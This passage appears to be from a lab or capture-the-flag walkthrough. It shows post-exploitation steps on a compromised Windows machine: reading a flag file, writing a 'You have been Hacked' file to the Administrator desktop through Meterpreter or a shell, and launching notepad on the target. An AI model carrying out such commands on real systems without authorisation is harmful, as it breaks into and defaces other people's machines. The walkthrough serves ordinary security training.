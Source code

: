 ```

09/16/2020  09:01 AM                32 flag.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
09/11/2020  08:17 AM    <DIR>          Program Files (x86)
09/10/2020  09:50 AM    <DIR>          Users
09/11/2020  08:18 AM    <DIR>          Windows
               1 File(s)             32 bytes
               5 Dir(s)   9,285,087,232 bytes free

C:\>type flag.txt
type flag.txt
70a569da306697d64fc6c19afea37d94

```

Create a file on the desktop which contains the text "You have been Hacked"

```
meterpreter > pwd
C:\Users\Administrator\Desktop
meterpreter > edit cracked.txt
meterpreter > cat cracked.txt 
You have been Hacked

```

或者

```
C:\>cd Users\\Administrator\\Desktop
cd Users\\Administrator\\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Users\Administrator\Desktop

09/11/2020  08:18 AM    <DIR>          .
09/11/2020  08:18 AM    <DIR>          ..
09/11/2020  08:17 AM             1,050 BadBlue Enterprise Edition.lnk
               1 File(s)          1,050 bytes
               2 Dir(s)   9,290,272,768 bytes free

C:\Users\Administrator\Desktop>echo "You have been hacked" > hacked.txt
echo "You have been hacked" > hacked.txt
```

From the Metasploit session, open the file in notepad on the target machine.

```
meterpreter > pwd
C:\Users\Administrator\Desktop
meterpreter > execute -f notepad.exe -a cracked.txt
Process 1808 created.
```
